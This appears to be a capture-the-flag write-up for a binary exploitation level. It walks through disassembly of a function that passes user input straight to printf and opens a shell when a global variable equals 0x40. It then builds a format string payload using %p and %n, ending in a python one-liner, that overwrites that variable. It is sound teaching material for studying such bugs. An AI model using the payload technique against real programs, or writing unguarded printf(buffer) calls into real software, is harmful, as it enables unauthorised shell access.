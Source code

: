 # Level 3

## Step 1 : Analyse v() function

```
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860 => stdin
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880 => stdout
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600 => "Wait what?!\n"
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d == "/bin/sh"
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
```

This program is getting some user input with `fgets()` (protected function), then uses `printf()` to print the input and compares the value stored at address `0x804988c` with `0x40`. If the value equals `0x40`, it opens a shell with `system()`.

So we need to find out how to change the value at address `0x804988c`.

```
(gdb) x/4s 0x804988c
0x804988c <m>:	 ""
0x804988d <m+1>:	 ""
0x804988e <m+2>:	 ""
0x804988f <m+3>:	 ""
```

It is a global variable. We can verify this with this command :

```
(gdb) i variables
All defined variables:

Non-debugging symbols:
...
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
0xb7ffeca0  _rtld_global_ro
0xb7ffee6c  _dl_argv
0xb7ffef10  __libc_stack_end
...
```

I couldn't find any way to modify the value stored in a global variable at runtime.

After some time digging the web, I found out that printf could be expoited if not used correctly. It is called an [uncontrolled format string vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

## Step 2 : Exploiting the format string vulnerability

```
printf(buffer) // is vulnerable
printf("%s", buffer) // isn't
```

Reading some documentation on the subject, we understand that the key format tokens are `%n` and `%x`, to write and read the data at a specified address.

`%n` will write the number of bytes that precede this format token at the address provided in the arguments.

Example

```
int n;
printf("123%n", &n) // n == 3 is true
```

What we want to achieve is :

```
printf("imagine that I am a 0x40 bytes long string %n", 0x804988c)
```

`printf()` arguments handling works this way : the pointer to the formated string at `[esp]` and then `nth` arg at `[esp + n * 0x4]`. If there is a format token in the format string,

The buffer used by `printf()` starts at `[esp + 0x10]`, so the 4th argument of the function could also be the first 4 bytes of the buffer string.

```
python -c 'print "\x8c\x98\x04\x08" + "A" * 35 + "%p%p%p%n"'
```
